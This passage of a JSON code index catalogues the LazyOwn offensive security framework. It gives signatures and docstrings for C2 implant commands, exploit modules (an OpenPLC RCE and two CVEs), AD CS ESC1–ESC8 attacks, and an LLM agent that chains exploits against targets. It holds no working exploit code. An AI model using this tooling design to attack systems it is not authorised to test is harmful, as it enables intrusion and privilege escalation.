console.\n\nExample:\n    To execute a command, call `run_command(\"ls -l\")`.\n\nNote:\n    - The `command` parameter should be a string representing the command to be executed.\n    - `self.output` must be initialized before calling this method.\n    - Ensure proper exception handling to manage process interruptions.", "kind": "method", "line": 4254, "name": "run_command", "signature": "def run_command(self, command)"}, {"doc": "Render the chain's ``next`` view for the supplied verb (helper).\n\nArgs:\n    raw_args: The raw argument string passed to ``do_next``.\n        Format: ``<verb> [limit]``.\n\nReturns:\n    None.", "kind": "method", "line": 4301, "name": "_render_chain_next", "signature": "def _render_chain_next(self, raw_args)"}, {"doc": "Devuelve la salida acumulada", "kind": "method", "line": 4334, "name": "get_output", "signature": "def get_output(self)"}, {"doc": "Sube un archivo al C2.\n\nParameters:\nfile_path (str): Ruta del archivo a subir.\n\nReturns:\nNone", "kind": "method", "line": 4339, "name": "upload_file_to_c2", "signature": "def upload_file_to_c2(self, file_path, clientid)"}, {"doc": "Autocomplete implant names from implant_config_*.json files in sessions/ directory", "kind": "method", "line": 4365, "name": "complete_upload_c2", "signature": "def complete_upload_c2(self, text, line, begidx, endidx)"}, {"doc": "Descarga un archivo desde el C2.\n\nParameters:\nfile_name (str): Nombre del archivo a descargar.\nclientid (str): Identificador del cliente (opcional).\n\nReturns:\nNone", "kind": "method", "line": 4393, "name": "download_file_from_c2", "signature": "def download_file_from_c2(self, file_name, clientid)"}, {"doc": "Sync CLI credentials with C2 auto-generated credentials if available.\n\nReads .c2_credentials.txt and updates self.c2_auth + payload.json\nwhen the C2 has generated stronger credentials than the defaults.", "kind": "method", "line": 4422, "name": "_sync_c2_credentials", "signature": "def _sync_c2_credentials(self)"}, {"doc": "Ejecuta un comando en el cliente usando el C2.\n\nParameters:\ncommand (str): Comando a ejecutar.\nclient_id (str): ID del cliente (opcional).\n\nReturns:\nNone", "kind": "method", "line": 4454, "name": "issue_command_to_c2", "signature": "def issue_command_to_c2(self, command, client_id)"}, {"doc": "Autocomplete: 1st arg = implant name, 2nd arg = beacon command (with : if needed)", "kind": "method", "line": 4485, "name": "complete_issue_command_to_c2", "signature": "def complete_issue_command_to_c2(self, text, line, begidx, endidx)"}, {"doc": "Display C and ASM code side by side in a curses-based interface.\n\nThis function sets up a curses window to display C code and its corresponding\nassembly code side by side. It allows the user to select a .c file from the\n'sessions' directory and then displays the code with scrolling capabilities\nboth vertically and horizontally. A green vertical line separates the C code\nfrom the ASM code.\n\nParameters:\n    stdscr (curses.window): The curses window object to draw on.\n\nReturns:\n    None", "kind": "method", "line": 4551, "name": "view_code", "signature": "def view_code(self, stdscr)"}, {"doc": "Returns a list of available actions using cmd2 introspection.", "kind": "method", "line": 4656, "name": "get_available_actions", "signature": "def get_available_actions(self)"}, {"doc": "Create a prompt that strictly enforces YAML response format without any narrative text", "kind": "method", "line": 4662, "name": "_create_strict_yaml_prompt", "signature": "def _create_strict_yaml_prompt(self, base_prompt, nmap_services, knowledge_base)"}, {"doc": "Processes a single scan CSV file.", "kind": "method", "line": 4739, "name": "process_scan_csv", "signature": "def process_scan_csv(self, csv_file, ip, port, all_data, processed_ips)"}, {"doc": "Processes a single vulnerability CSV file.", "kind": "method", "line": 4762, "name": "process_vuln_csv", "signature": "def process_vuln_csv(self, csv_file, ip, all_data, processed_ips)"}, {"kind": "method", "line": 4821, "name": "_load_adversaries", "signature": "def _load_adversaries(self)"}, {"kind": "method", "line": 4835, "name": "_parse_adversary_args", "signature": "def _parse_adversary_args(self, line)"}, {"kind": "method", "line": 4844, "name": "_patch_template_if_needed", "signature": "def _patch_template_if_needed(self, adversary, path, replacements)"}, {"kind": "method", "line": 4854, "name": "_build_command_stack", "signature": "def _build_command_stack(self, adversary, r)"}, {"kind": "method", "line": 4868, "name": "_display_adversary_info", "signature": "def _display_adversary_info(self, adversary, commands)"}, {"kind": "method", "line": 4875, "name": "_execute_commands", "signature": "def _execute_commands(self, confirm, remote_cmds)"}, {"doc": "Show recent EventBus events. Usage: event_log [N] [category]", "kind": "method", "line": 4894, "name": "do_event_log", "signature": "def do_event_log(self, line)"}, {"doc": "Show unified StateManager snapshot (DB + JSON caches).", "kind": "method", "line": 4924, "name": "do_state_snapshot", "signature": "def do_state_snapshot(self, line)"}, {"doc": "Route a natural-language prompt to a LazyOwn tool. Usage: route <prompt>", "kind": "method", "line": 4963, "name": "do_route", "signature": "def do_route(self, line)"}, {"kind": "function", "line": 690, "name": "_persist", "signature": "def _persist(name, _old, _new)"}, {"kind": "function", "line": 2038, "name": "wrapper", "signature": "def wrapper(arg)"}, {"kind": "function", "line": 2154, "name": "wrapper_yaml", "signature": "def wrapper_yaml(arg)"}, {"kind": "function", "line": 2282, "name": "cmd_wrapper", "signature": "def cmd_wrapper(_)"}, {"kind": "function", "line": 2346, "name": "show_toastr", "signature": "def show_toastr()"}, {"kind": "function", "line": 1135, "name": "_handler", "signature": "def _handler(received, frame, _signum)"}, {"kind": "function", "line": 1597, "name": "_chain_perror", "signature": "def _chain_perror()"}, {"kind": "function", "line": 1936, "name": "make_wrapper", "signature": "def make_wrapper(cmd_template, tname, default_target)"}, {"kind": "function", "line": 1937, "name": "tool_wrapper", "signature": "def tool_wrapper(arg)"}]}, {"doc": "Exploit Title: OpenPLC 3 - Remote Code Execution (Authenticated) Date: 25/04/2021 Exploit Author: Fellipe Oliveira Vendor Homepage: https://www.openplcproject.com/ Software Link: https://github.com/thiagoralves/OpenPLC_v3 Version: OpenPLC v3 Tested on: Ubuntu 16.04,Debian 9,Debian 10 Buster  /usr/bin/python3", "id": "modules/49803.py", "kind": "module", "label": "49803.py", "language": "py", "sha256": "51c66ef6c6cf5f2c", "symbol_count": 3, "symbols": [{"kind": "function", "line": 43, "name": "auth", "signature": "def auth()"}, {"kind": "function", "line": 69, "name": "injection", "signature": "def injection()"}, {"kind": "function", "line": 106, "name": "connection", "signature": "def connection()"}]}, {"id": "modules/CVE-2018-15133.php", "kind": "module", "label": "CVE-2018-15133.php", "language": "php", "sha256": "1cce0ba9dfaa5db4", "symbol_count": 0, "symbols": []}, {"id": "modules/CVE-2023-28432.py", "kind": "module", "label": "CVE-2023-28432.py", "language": "py", "sha256": "2e99ae8f9cb95a9f", "symbol_count": 1, "symbols": [{"kind": "function", "line": 12, "name": "poc", "signature": "def poc(url)"}]}, {"doc": "main.py  Autor: Gris Iscomeback Correo electrónico: grisiscomeback[at]gmail[dot]com Fecha de creación: 09/06/2024 Licencia: GPL v3  Descripción: Gui to search in gtfobins db  ██╗      █████╗ ███████╗██╗   ██╗ ██████╗ ██╗    ██╗███╗   ██╗ ██║     ██╔══██╗╚══███╔╝╚██╗ ██╔╝██╔═══██╗██║    ██║████╗  ██║ ██║     ███████║  ███╔╝  ╚████╔╝ ██║   ██║██║ █╗ ██║██╔██╗ ██║ ██║     ██╔══██║ ███╔╝    ╚██╔╝  ██║   ██║██║███╗██║██║╚██╗██║ ███████╗██║  ██║███████╗   ██║   ╚██████╔╝╚███╔███╔╝██║ ╚████║ ╚══════╝╚═╝  ╚═╝╚══════╝   ╚═╝    ╚═════╝  ╚══╝╚══╝ ╚═╝  ╚═══╝", "id": "modules/LazyOwnExplorer.py", "kind": "module", "label": "LazyOwnExplorer.py", "language": "py", "sha256": "4d042047a102e454", "symbol_count": 23, "symbols": [{"kind": "class", "line": 30, "name": "AutocompleteEntry", "signature": "class AutocompleteEntry(Entry)"}, {"kind": "class", "line": 104, "name": "LazyOwnGUI", "signature": "class LazyOwnGUI(Tk)"}, {"kind": "method", "line": 31, "name": "__init__", "signature": "def __init__(self, get_suggestions_func)"}, {"kind": "method", "line": 45, "name": "changed", "signature": "def changed(self, name, index, mode)"}, {"kind": "method", "line": 68, "name": "selection", "signature": "def selection(self, event)"}, {"kind": "method", "line": 75, "name": "move_up", "signature": "def move_up(self, event)"}, {"kind": "method", "line": 87, "name": "move_down", "signature": "def move_down(self, event)"}, {"kind": "method", "line": 99, "name": "comparison", "signature": "def comparison(self, pattern)"}, {"kind": "method", "line": 105, "name": "__init__", "signature": "def __init__(self)"}, {"kind": "method", "line": 119, "name": "create_widgets", "signature": "def create_widgets(self)"}, {"kind": "method", "line": 181, "name": "load_parquet_files", "signature": "def load_parquet_files(self)"}, {"kind": "method", "line": 241, "name": "get_unique_values", "signature": "def get_unique_values(self)"}, {"kind": "method", "line": 248, "name": "search", "signature": "def search(self)"}, {"kind": "method", "line": 267, "name": "search_in_parquet", "signature": "def search_in_parquet(self, term)"}, {"kind": "method", "line": 278, "name": "on_row_double_click", "signature": "def on_row_double_click(self, event)"}, {"kind": "method", "line": 283, "name": "show_row_details", "signature": "def show_row_details(self, row)"}, {"kind": "method", "line": 305, "name": "add_new_attack_vector", "signature": "def add_new_attack_vector(self)"}, {"kind": "method", "line": 357, "name": "scan_system_for_binaries", "signature": "def scan_system_for_binaries(self)"}, {"kind": "method", "line": 374, "name": "show_scan_results", "signature": "def show_scan_results(self, binaries)"}, {"kind": "method", "line": 385, "name": "export_to_csv", "signature": "def export_to_csv(self)"}, {"kind": "function", "line": 124, "name": "get_suggestions", "signature": "def get_suggestions(term)"}, {"kind": "function", "line": 325, "name": "save_new_vector", "signature": "def save_new_vector()"}, {"kind": "function", "line": 358, "name": "is_binary", "signature": "def is_binary(file_path)"}]}, {"id": "modules/__init__.py", "kind": "module", "label": "__init__.py", "language": "py", "sha256": "c271f9806167ea9c", "symbol_count": 0, "symbols": []}, {"doc": "Active Directory Certificate Services (AD CS) attack module.  Implements ESC1 through ESC8 attack techniques for privilege escalation via certificate templates and AD CS misconfigurations.", "id": "modules/adcs_attacks.py", "kind": "module", "label": "adcs_attacks.py", "language": "py", "sha256": "fc03b229036c4643", "symbol_count": 14, "symbols": [{"doc": "Represents a vulnerable AD CS certificate template.", "kind": "class", "line": 14, "name": "CertificateTemplate", "signature": "class CertificateTemplate"}, {"doc": "High-level wrapper around Certipy for AD CS attacks.\n\nProvides simplified interfaces for certificate template enumeration,\nexploitation, and the full ESC1-ESC8 attack chain.\n\nArgs:\n    certipy_path: Path to certipy executable. Auto-detects if None.\n    timeout: Default timeout for subprocess calls in seconds.", "kind": "class", "line": 69, "name": "ADCSCertipyWrapper", "signature": "class ADCSCertipyWrapper"}, {"doc": "Determine which ESC attack paths apply to this template.\n\nReturns:\n    List of ESC attack identifiers (ESC1-ESC8).", "kind": "method", "line": 35, "name": "esc_vulnerabilities", "signature": "def esc_vulnerabilities(self)"}, {"kind": "method", "line": 80, "name": "__init__", "signature": "def __init__(self, certipy_path, timeout)"}, {"doc": "Locate the certipy executable or Python module.", "kind": "method", "line": 85, "name": "_find_certipy", "signature": "def _find_certipy()"}, {"doc": "Execute a certipy command and return exit code, stdout, stderr.\n\nArgs:\n    args: Command arguments.\n    capture: Whether to capture output.\n\nReturns:\n    Tuple of (exit_code, stdout, stderr).", "kind": "method", "line": 93, "name": "_run", "signature": "def _run(self, args, capture)"}, {"doc": "Enumerate certificate authorities in an Active Directory domain.\n\nArgs:\n    username: Domain username for authentication.\n    password: Domain password for authentication.\n    domain: FQDN of the domain.\n    dc_ip: Domain controller IP address.\n    hashes: Optional NTLM hashes for pass-the-hash.\n\nReturns:\n    List of CA dictionaries with name, dns_hostname, and ca_type.", "kind": "method", "line": 113, "name": "find_certificate_authorities", "signature": "def find_certificate_authorities(self, username, password, domain, dc_ip, hashes)"}, {"doc": "Parse certipy find output for certificate authorities.", "kind": "method", "line": 157, "name": "_parse_ca_output", "signature": "def _parse_ca_output(output)"}, {"doc": "Enumerate vulnerable certificate templates.\n\nArgs:\n    username: Domain username.\n    password: Domain password.\n    domain: Domain FQDN.\n    dc_ip: Domain controller IP.\n    hashes: Optional NTLM hashes.\n\nReturns:\n    List of CertificateTemplate objects.", "kind": "method", "line": 189, "name": "enumerate_templates", "signature": "def enumerate_templates(self, username, password, domain, dc_ip, hashes)"}, {"doc": "Parse certipy JSON output into CertificateTemplate objects.", "kind": "method", "line": 232, "name": "_parse_template_output", "signature": "def _parse_template_output(self, output)"}, {"doc": "ESC1: Request a certificate with a user-supplied subject alternative name.\n\nExploits certificate templates where:\n- Enrollee can supply a subject alternative name (SAN)\n- Template has Client Authentication EKU\n- No manager approval required\n\nArgs:\n    username: Authenticated user.\n    password: Authenticated user's password.\n    domain: Domain FQDN.\n    dc_ip: Domain controller IP.\n    ca_name: Target certificate authority name.\n    template_name: Vulnerable template name.\n    target_user: User to impersonate (e.g., 'Administrator').\n    output_file: Path to save the .pfx certificate.\n\nReturns:\n    bool: True if certificate was successfully requested.", "kind": "method", "line": 268, "name": "request_certificate_esc1", "signature": "def request_certificate_esc1(self, username, password, domain, dc_ip, ca_name, template_name, target_user, output_file)"}, {"doc": "ESC8: HTTP-based certificate enrollment (NTLM relay to AD CS).\n\nArgs:\n    username: Authenticated user.\n    password: Authenticated user's password.\n    domain: Domain FQDN.\n    dc_ip: Domain controller IP.\n    ca_server: CA server hostname.\n    template_name: Template to request.\n    output_file: Output .pfx path.\n\nReturns:\n    bool: True if successful.", "kind": "method", "line": 322, "name": "request_certificate_esc8", "signature": "def request_certificate_esc8(self, username, password, domain, dc_ip, ca_server, template_name, output_file)"}, {"doc": "Authenticate to the domain using a certificate and retrieve NT hash.\n\nArgs:\n    cert_file: Path to the .pfx certificate file.\n    domain: Domain FQDN.\n    dc_ip: Domain controller IP.\n    username: Optional username override.\n\nReturns:\n    NT hash string if successful, None otherwise.", "kind": "method", "line": 367, "name": "authenticate_with_certificate", "signature": "def authenticate_with_certificate(self, cert_file, domain, dc_ip, username)"}, {"doc": "Run a full AD CS vulnerability assessment.\n\nEnumerates all certificate templates and maps them to\napplicable ESC attack techniques.\n\nArgs:\n    username: Domain user.\n    password: Domain password.\n    domain: Domain FQDN.\n    dc_ip: Domain controller IP.\n    hashes: Optional NTLM hashes.\n\nReturns:\n    Dict mapping ESC IDs to lists of vulnerable template dicts.", "kind": "method", "line": 411, "name": "assess_vulnerability", "signature": "def assess_vulnerability(self, username, password, domain, dc_ip, hashes)"}]}, {"doc": "LazyOwn AI Agent - Ultimate Edition Mejoras: Anti-Hang (Timeout), Gestión de Memoria, Validación de Argumentos y Anti-Loop.", "id": "modules/agent_runner.py", "kind": "module", "label": "agent_runner.py", "language": "py", "sha256": "7a6705a1965a9d7f", "symbol_count": 38, "symbols": [{"kind": "function", "line": 60, "name": "configure_logging", "signature": "def configure_logging(debug)"}, {"doc": "Herramienta ejecutable con validación y truncado", "kind": "class", "line": 66, "name": "AgentTool", "signature": "class AgentTool"}, {"kind": "class", "line": 127, "name": "CommandMetadata", "signature": "class CommandMetadata"}, {"doc": "Extractor inteligente usando AST", "kind": "class", "line": 134, "name": "ASTToolExtractor", "signature": "class ASTToolExtractor"}, {"doc": "Flatten one SDK/SimpleNamespace tool call into a plain JSON dict.\n\nThe raw object is not JSON-serializable, so persisting it in the\nconversation history breaks the ConversationStore save.", "kind": "function", "line": 173, "name": "_tool_call_snapshot", "signature": "def _tool_call_snapshot(tool_call)"}, {"doc": "Motor del agente con Límite de Uso por Herramienta (Anti-Spam)", "kind": "class", "line": 190, "name": "AgentRunner", "signature": "class AgentRunner"}, {"doc": "Wrapper que ejecuta comandos en hilos seguros", "kind": "class", "line": 482, "name": "LazyOwnShellWrapper", "signature": "class LazyOwnShellWrapper"}, {"kind": "class", "line": 559, "name": "VulnBotCLI", "signature": "class VulnBotCLI"}, {"kind": "function", "line": 620, "name": "interactive_mode", "signature": "def interactive_mode(bot)"}, {"kind": "function", "line": 644, "name": "parse_args", "signature": "def parse_args()"}, {"kind": "function", "line": 654, "name": "main", "signature": "def main()"}, {"kind": "method", "line": 69, "name": "__init__", "signature": "def __init__(self, name, description, func, parameters, required)"}, {"kind": "method", "line": 77, "name": "to_api_format", "signature": "def to_api_format(self)"}, {"doc": "Ejecuta con validación de argumentos y formato claro", "kind": "method", "line": 83, "name": "execute", "signature": "def execute(self)"}, {"kind": "method", "line": 138, "name": "extract_commands_from_file", "signature": "def extract_commands_from_file(file_path, prefix)"}, {"kind": "method", "line": 193, "name": "__init__", "signature": "def __init__(self, model, system_prompt, max_iterations)"}, {"kind": "method", "line": 207, "name": "_reset_history", "signature": "def _reset_history(self)"}, {"doc": "Mantiene la ventana de contexto limpia", "kind": "method", "line": 210, "name": "_manage_memory", "signature": "def _manage_memory(self)"}, {"kind": "method", "line": 218, "name": "register_tool", "signature": "def register_tool(self, tool)"}, {"doc": "Wrap a plain function as an AgentTool using its signature and docstring.", "kind": "method", "line": 221, "name": "register_tool_from_instance", "signature": "def register_tool_from_instance(self, func)"}, {"kind": "method", "line": 239, "name": "register_tools_from_metadata", "signature": "def register_tools_from_metadata(self, commands, executor)"}, {"kind": "method", "line": 266, "name": "get_tools_for_api", "signature": "def get_tools_for_api(self)"}, {"kind": "method", "line": 271, "name": "run", "signature": "def run(self, user_input)"}, {"kind": "method", "line": 295, "name": "_call_model", "signature": "def _call_model(self)"}, {"doc": "One model turn with ``stream=True``, reassembling the reply.\n\nOpenAI-compatible streams deliver content, reasoning and tool\ncalls as deltas. This assembles them back into the response\nshape the base loop expects and forwards content/reasoning\nfragments to ``delta_sink`` for live reporting.\n\nArgs:\n    model_name: Model id to call.\n    messages: Conversation context.\n    max_tokens: Optional token cap for providers that accept it.\n\nReturns:\n    A response-like namespace with ``choices[0].message``.", "kind": "method", "line": 341, "name": "_stream_call", "signature": "def _stream_call(self, model_name, messages, max_tokens)"}, {"doc": "Forward streamed fragments to the sink, throttled to one per second.", "kind": "method", "line": 415, "name": "_emit_delta", "signature": "def _emit_delta(self, kind, text)"}, {"kind": "method", "line": 434, "name": "_process_tool_call", "signature": "def _process_tool_call(self, tool_call)"}, {"kind": "method", "line": 485, "name": "__init__", "signature": "def __init__(self, script_path)"}, {"kind": "method", "line": 492, "name": "_load_shell", "signature": "def _load_shell(self)"}, {"doc": "Ejecuta comando con timeout usando threading", "kind": "method", "line": 515, "name": "execute_command", "signature": "def execute_command(self, command)"}, {"kind": "method", "line": 552, "name": "get_commands_summary", "signature": "def get_commands_summary(self)"}, {"kind": "method", "line": 560, "name": "__init__", "signature": "def __init__(self, provider, mode, debug, script_path)"}, {"doc": "Instantiate the LLM backend mapped to ``self.provider``.\n\nReturns:\n    A configured :class:`AIModel` instance.\n\nRaises:\n    LLMBackendNotSupportedError: When ``self.provider`` does not\n        map to a known backend.\n    LLMBackendUnavailableError: When the resolved backend cannot\n        be constructed from the current environment.", "kind": "method", "line": 572, "name": "_load_model", "signature": "def _load_model(self)"}, {"kind": "method", "line": 587, "name": "_setup_agent", "signature": "def _setup_agent(self)"}, {"kind": "method", "line": 615, "name": "process_request", "signature": "def process_request(self, user_input)"}, {"kind": "function", "line": 522, "name": "target", "signature": "def target()"}, {"kind": "function", "line": 243, "name": "make_executor", "signature": "def make_executor(cmd_name)"}, {"kind": "function", "line": 244, "name": "wrapper", "signature": "def wrapper(command)"}]}, {"doc": "AI-Driven Exploit Chaining Engine.  Multi-step reasoning for exploit attempts. When one exploit fails the engine analyzes WHY it failed and pivots to a different strategy using a heuristic decision matrix. No external API calls required.  Usage: from modules.ai_exploit_chain import AIExploitChainer, ExploitChainContext chainer = AIExploitChainer() ctx = ExploitChainContext(target=\"10.10.11.5\", profile=profile) candidate = chainer.reason(ctx)", "id": "modules/ai_exploit_chain.py", "kind": "module", "label": "ai_exploit_chain.py", "language": "py", "sha256": "5bdd87dd91f322d2", "symbol_count": 11, "symbols": [{"doc": "Mutable context tracking state across chained exploit attempts.\n\nAttributes:\n    target: IP or hostname of the target.\n    profile: Immutable TargetProfile snapshot.\n    attempted: All exploit results (success and failure).\n    available_strategies: Strategies not yet tried.\n    failed_strategies: Strategies that failed.\n    success_strategies: Strategies that yielded access.\n    current_phase: Active kill-chain phase label.\n    chain_score: Aggregate chain quality (0.0-1.0).", "kind": "class", "line": 223, "name": "ExploitChainContext", "signature": "class ExploitChainContext"}, {"doc": "Heuristic exploit chainer that reasons about failures and pivots strategies.\n\nPublic methods:\n    reason(context) -> ExploitCandidate | None\n    evaluate_failure(result) -> str\n    select_next_strategy(context) -> str\n    estimate_confidence(strategy, profile) -> float\n    build_chain_plan(context) -> list[dict]\n    adapt_chain(context, new_info) -> list[dict]", "kind": "class", "line": 247, "name": "AIExploitChainer", "signature": "class AIExploitChainer"}, {"kind": "method", "line": 259, "name": "__init__", "signature": "def __init__(self)"}, {"doc": "Analyze context failures and produce the next best exploit candidate.", "kind": "method", "line": 285, "name": "reason", "signature": "def reason(self, context)"}, {"doc": "Classify the reason for an exploit failure by output pattern matching.\n\nReturns a failure category string (e.g. ``auth_required``).", "kind": "method", "line": 306, "name": "evaluate_failure", "signature": "def evaluate_failure(result)"}, {"doc": "Select the next strategy to attempt based on context and failures.\n\nPriority: adaptation from last failure, phase-aware escalation,\nservice-based heuristics, then highest confidence remaining.", "kind": "method", "line": 318, "name": "select_next_strategy", "signature": "def select_next_strategy(self, context)"}, {"doc": "Estimate confidence (0.0-1.0) for a strategy against a target profile.\n\nAdjusts base score using open ports, credentials, OS type, and\nknown vulns from the profile. Returns a clamped value.", "kind": "method", "line": 349, "name": "estimate_confidence", "signature": "def estimate_confidence(self, strategy, profile)"}, {"doc": "Build a full multi-step exploitation plan following the kill chain.\n\nEach phase is assigned a primary strategy and fallbacks ranked by\nconfidence.", "kind": "method", "line": 391, "name": "build_chain_plan", "signature": "def build_chain_plan(self, context)"}, {"doc": "Adapt the chain plan based on newly discovered information.\n\nUnlocks strategies based on new creds, ports, OS details, and\nparses shell output for privilege escalation hints.\n\nArgs:\n    context: Current exploit chain state.\n    new_info: Dict with optional keys ``credentials``,\n        ``open_ports``, ``os_type``, ``os_version``,\n        ``access_level``, ``shell_output``.\n\nReturns:\n    Rebuilt chain plan reflecting the new information.", "kind": "method", "line": 428, "name": "adapt_chain", "signature": "def adapt_chain(self, context, new_info)"}, {"doc": "Add *strategy* to available_strategies if not already present.", "kind": "method", "line": 487, "name": "_ensure", "signature": "def _ensure(context, strategy)"}, {"doc": "Detect privesc vectors and credentials in shell output.", "kind": "method", "line": 492, "name": "_parse_shell_hints", "signature": "def _parse_shell_hints(self, output, context)"}]}, {"doc": "LazyOwn AI Fallback Chain ========================== Unified LLM caller with automatic fallback:  1. Groq (cloud, fast, requires api_key) ↓ on quota / rate-limit error 2. Ollama (local, requires ollama running + a chat model) ↓ if Ollama unreachable or no suitable model 3. Helpful error message with actionable steps  Used by recommender.py and timeline_narrator.py so fallback logic lives in exactly one place.  Public API ---------- call(prompt, system, api_key, max_tokens, temperature) -> AIResult  AIResult fields: .text     str   — the response text (or error/help message) .backend  str   — \"groq\" | \"ollama\" | \"error\" .model    str   — model name used .error    str   — original error if fallback occurred (else \"\")", "id": "modules/ai_fallback.py", "kind": "module", "label": "ai_fallback.py", "language": "py", "sha256": "45daf8dae00a9618", "symbol_count": 8, "symbols": [{"kind": "class", "line": 95, "name": "AIResult", "signature": "class AIResult"}, {"kind": "function", "line": 105, "name": "_ollama_available", "signature": "def _ollama_available()"}, {"doc": "Return the best available chat model, or None if none found.", "kind": "function", "line": 113, "name": "_best_ollama_model", "signature": "def _best_ollama_model()"}, {"kind": "function", "line": 140, "name": "_ollama_call", "signature": "def _ollama_call(model, system, user, max_tokens, temperature)"}, {"kind": "function", "line": 184, "name": "_is_quota_error", "signature": "def _is_quota_error(exc)"}, {"kind": "function", "line": 189, "name": "_groq_call", "signature": "def _groq_call(api_key, system, user, max_tokens, temperature)"}, {"doc": "Try TopoSwarm local brain as a last-resort fallback.\nReturns an AIResult if TopoSwarm is available, else None.", "kind": "function", "line": 226, "name": "_toposwarm_call", "signature": "def _toposwarm_call(prompt, system)"}, {"doc": "Call Groq → fallback to Ollama → fallback to TopoSwarm local brain → error.\nReturns an AIResult with .text, .backend, .model, .error.", "kind": "function", "line": 254, "name": "call", "signature": "def call(prompt, system, api_key, max_tokens, temperature)"}]}, {"doc": "Concrete language model backends for LazyOwn.  This module exposes the abstract :class:`AIModel` together with five concrete implementations: :class:`GroqModel` (cloud), :class:`OllamaModel` (local), :class:`OpenAIModel` (cloud), :class:`AnthropicModel` (cloud), and :class:`DeepSeekModel` (cloud). Every implementation honours both the historical ``generate``/``stream_generate`` interface used by the existing AI agents and the :func:`complete` signature defined in ``core.protocols.LLMBackend``. Callers depending on the abstract type remain decoupled from the concrete provider.  For provider selection driven by ``payload.json`` use :func:`modules.llm_factory.get_llm_backend`. Do not instantiate the concrete classes from new code unless a test explicitly requires it.", "id": "modules/ai_model.py", "kind": "module", "label": "ai_model.py", "language": "py", "sha256": "c87e772e6933371c", "symbol_count": 39, "symbols": [{"doc": "Abstract base class for language model backends.\n\nConcrete subclasses must implement :meth:`generate` and\n:meth:`stream_generate`. A default :meth:`complete` implementation\nis provided that combines ``system`` and ``user`` prompts into the\nhistorical single-prompt format so subclasses gain\n``core.protocols.LLMBackend`` compatibility for free.", "kind": "class", "line": 45, "name": "AIModel", "signature": "class AIModel(ABC)"}, {"doc": "Deferred importer to avoid import errors when optional SDKs are unavailable.", "kind": "class", "line": 97, "name": "_LazyImporter", "signature": "class _LazyImporter"}, {"doc": "Groq-hosted Llama backend.\n\nUses the official ``groq`` SDK. Errors are returned as readable\nstrings rather than raised so callers do not have to wrap every\ninvocation in try/except blocks for surface-level failures.", "kind": "class", "line": 129, "name": "GroqModel", "signature": "class GroqModel(AIModel)"}, {"doc": "Ollama-hosted local backend.\n\nCommunicates with a local Ollama daemon via its HTTP API. The model\nidentifier and host are configurable so operators can point at any\nOllama-compatible endpoint without code changes.", "kind": "class", "line": 244, "name": "OllamaModel", "signature": "class OllamaModel(AIModel)"}, {"doc": "llama.cpp server backend (OpenAI-compatible ``/v1`` API, keyless).\n\nTalks to a locally hosted ``llama-server`` (see the ``lazy_llamacpp``\naddon) over HTTP. Every request carries connect/read timeouts so a\ndead server fails fast into the pool failover instead of hanging the\nloop. When the ``openai`` SDK is importable, ``client`` exposes a\ntool-calling chat client against the same endpoint so the agentic\npath can use this leg.", "kind": "class", "line": 313, "name": "LlamaCppModel", "signature": "class LlamaCppModel(AIModel)"}, {"doc": "OpenAI-hosted backend (GPT-4o, GPT-4, etc.).\n\nUses the ``openai`` SDK. Requires an OpenAI API key.", "kind": "class", "line": 434, "name": "OpenAIModel", "signature": "class OpenAIModel(AIModel)"}, {"doc": "Anthropic Claude backend.\n\nUses the ``anthropic`` SDK. Requires an Anthropic API key.", "kind": "class", "line": 493, "name": "AnthropicModel", "signature": "class AnthropicModel(AIModel)"}, {"doc": "DeepSeek cloud backend.\n\nUses the OpenAI-compatible API at api.deepseek.com.\nRequires a DeepSeek API key.", "kind": "class", "line": 549, "name": "DeepSeekModel", "signature": "class DeepSeekModel(AIModel)"}, {"doc": "Return a non-streaming completion for ``prompt``.", "kind": "method", "line": 56, "name": "generate", "signature": "def generate(self, prompt)"}, {"doc": "Yield streaming completion chunks for ``prompt``.", "kind": "method", "line": 60, "name": "stream_generate", "signature": "def stream_generate(self, prompt)"}, {"doc": "Return a completion conforming to ``core.protocols.LLMBackend``.\n\nThe default implementation concatenates ``system`` and ``user``\nwith explicit role markers and delegates to :meth:`generate`.\nBackends that natively support role-aware chat formats may\noverride this method for higher fidelity.\n\nArgs:\n    system: System prompt establishing persona, constraints,\n        and output contract.\n    user: User-turn prompt with the concrete task.\n    max_tokens: Advisory cap accepted for protocol parity.\n        Concrete backends honour it when their SDK supports it.\n    temperature: Advisory sampling temperature accepted for\n        protocol parity.\n\nReturns:\n    The completion as a string.", "kind": "method", "line": 63, "name": "complete", "signature": "def complete(self, system, user, max_tokens, temperature)"}, {"kind": "method", "line": 105, "name": "groq", "signature": "def groq(cls)"}, {"kind": "method", "line": 113, "name": "openai", "signature": "def openai(cls)"}, {"kind": "method", "line": 121, "name": "anthropic", "signature": "def anthropic(cls)"}, {"kind": "method", "line": 137, "name": "__init__", "signature": "def __init__(self, api_key, model)"}, {"doc": "Return the configured model first, then known-good fallbacks.", "kind": "method", "line": 141, "name": "_model_chain", "signature": "def _model_chain(self)"}, {"doc": "Return a single completion for ``prompt``.\n\nFails over to a known-good model id when the configured one is\nunavailable (Groq answers 404 model_not_found for retired ids).\n\nArgs:\n    prompt: The full prompt string sent to Groq.\n\nReturns:\n    The model completion or a human-readable error string.", "kind": "method", "line": 155, "name": "generate", "signature": "def generate(self, prompt)"}, {"doc": "Yield streamed completion chunks for ``prompt``.\n\nFails over to a known-good model id when the configured one is\nunavailable, mirroring :meth:`generate`.\n\nArgs:\n    prompt: The full prompt string sent to Groq.\n\nYields:\n    Successive content fragments emitted by the Groq stream.", "kind": "method", "line": 183, "name": "stream_generate", "signature": "def stream_generate(self, prompt)"}, {"doc": "Return a chat completion using native role separation.\n\nOverrides the default :meth:`AIModel.complete` to leverage\nGroq's chat schema and to honour ``max_tokens`` / ``temperature``\ndirectly.", "kind": "method", "line": 216, "name": "complete", "signature": "def complete(self, system, user, max_tokens, temperature)"}, {"kind": "method", "line": 252, "name": "__init__", "signature": "def __init__(self, model, host)"}, {"doc": "Return a single completion for ``prompt``.\n\nArgs:\n    prompt: The full prompt string sent to Ollama.\n\nReturns:\n    The model completion or a human-readable error string.", "kind": "method", "line": 260, "name": "generate", "signature": "def generate(self, prompt)"}, {"doc": "Yield streamed completion chunks for ``prompt``.\n\nArgs:\n    prompt: The full prompt string sent to Ollama.\n\nYields:\n    Successive ``response`` fields from the Ollama stream.", "kind": "method", "line": 281, "name": "stream_generate", "signature": "def stream_generate(self, prompt)"}, {"kind": "method", "line": 324, "name": "__init__", "signature": "def __init__(self, model, host)"}, {"doc": "POST one chat request; return the raw response.\n\nThinking is disabled: loop turns are short tool decisions where a\nreasoning trace would burn the token budget and risk empty\ncontent, while multi-turn strategy already lives in the\nconversation, not in one block.", "kind": "method", "line": 341, 